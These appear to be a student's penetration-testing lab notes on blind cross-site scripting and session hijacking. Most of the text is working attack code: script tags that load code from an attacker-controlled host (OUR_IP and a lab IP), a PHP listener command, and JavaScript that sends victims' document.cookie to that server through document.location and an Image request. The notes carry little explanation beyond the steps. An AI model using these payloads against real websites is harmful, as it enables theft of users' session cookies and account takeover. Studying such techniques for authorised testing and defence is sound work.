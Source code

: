 ```html
<script>$.getScript("http://OUR_IP")</script>
```

#### Start a Listener on the VM
```Shell
mkdir /tmp/tmpserver
cd /tmp/tmpserver
php -S 0.0.0.0:80
```

#### Start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP
```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```
Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on.

*Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.*

***LAB Payload:*

Testing for Blind XSS:
```html
"><script src=http://10.10.16.18/imgurl></script>
```
![[blind xss payload.png]]

### Session Hijacking

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)

#### JavaScript payloads that grab the session cookie and send it to our PHP server
```JavaScript
document.location='http://OUR_IP/index.php?c='+document.cookie;
```

#### Create the `script.js` payload on your VM
```JavaScript
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
Image payloads look less suspicious

#### Change the URL in the XSS payload we found earlier to use script.js
```html
<script src=http://OUR_IP/script.js></script>
```
